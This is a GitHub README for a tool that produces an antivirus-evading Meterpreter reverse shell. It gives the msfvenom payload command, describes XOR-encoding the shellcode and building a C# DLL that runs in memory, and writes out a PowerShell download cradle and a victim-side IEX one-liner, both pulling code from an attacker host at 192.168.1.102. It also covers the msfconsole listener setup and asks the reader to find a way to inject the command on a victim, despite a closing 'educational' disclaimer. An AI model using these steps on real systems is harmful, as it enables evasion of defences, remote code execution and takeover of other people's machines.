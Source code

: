 # RS_meterpreter_bypass
Get a Meterpreter reverse_tcp shell bypassing AV.
These two C# programs are used to encode and create a .dll file from a starting metasploit xor encoded reverse_tcp payload.
        
- Generate your payload **#1**
- XOR encode your shell script  **#2**
- Create a DLL to inject into memory **#3**
- Create a Powershell script to download and execute the DLL in memory **#4**

# How to use
**#1** Fisrt of all: generate shellcode in C# format, and use msfvenom's built-in encoder xor_dynamic

        msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f csharp -e x64/xor_dynamic

Take note of the *buf* variable showed in output.

**#2** Now we use our [_XOR_encoder_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/XOR_encoder.cs), open this in a new console project on Visual Studio Community and build an executable solution.

- Remember to change the byte array *buf* with your version

Execute the exe with:
        
        .\XOR_encoder.exe

Take note of the output, it is your new double-encoded payload.

We have now a double XOR-encoded shellcode.

**#3** To actually bypass AV we will need a .dll to run in memory, not in disk. 

We will use [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs) which is used to execute our payload and also bypass heuristics control. So, after you have changed also here the *buf* with your new double-encoded payload, build the solution.

The output will be ClassLibrary1.dll, the payload.

Now we have the .dll, we can host it in a remote server or ourselves with the command below after we have inserted the .dll in /var/www/html/

        service apache start

**#4** Now we just need to execute the .dll in memory, so we do a .ps1 script to do that, we can name it *download_cradle.ps1* also also this needs to be placed in /var/www/html:

        $data = (New-Object System.Net.WebClient).DownloadData('http://192.168.1.102/ClassLibrary1.dll')
        $assem = [System.Reflection.Assembly]::Load($data)
        $class = $assem.GetType("ClassLibrary1.Class1")
        $method = $class.GetMethod("Runner")
        $method.Invoke(0, $null)

This PowerShell script will download the DLL, load it directly into memory, and invoke Runner function of [_Class1_](https://github.com/marcoigorr/RS_meterpreter_bypass/blob/6e7cf2a56639a471bc8a45d42c06cf47eb2ff10d/Class1.cs).

## Victim machine

On victim's machine we will just neet do run this command, It donwloades the script hosted in a remote server and allocate into memory (AMSI just ignores it):

        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX
        
## Attacker machine

We will need to start up the listener with *msfconsole* to catch anything that come through:
> msfconsole

> use exploit/multi/handler

> set payload windows/x64/meterpreter/reverse_tcp

> set LHOST 192.168.1.102

> set LPORT 4444

> exploit

Now we just wait for the victim to issue the command:
        
        (New-Object system.net.webclient).downloadstring('http://192.168.1.102/download_cradle.ps1') | IEX

Your job to find a way for injecting this command :)

# Credits
- purpl3f0x

# Disclaimer
All the techniques provided here are solely meant for educational purposes only. All of the techniques taught here are only meant to be used in a closed laboratory environment or in consent with a second party.
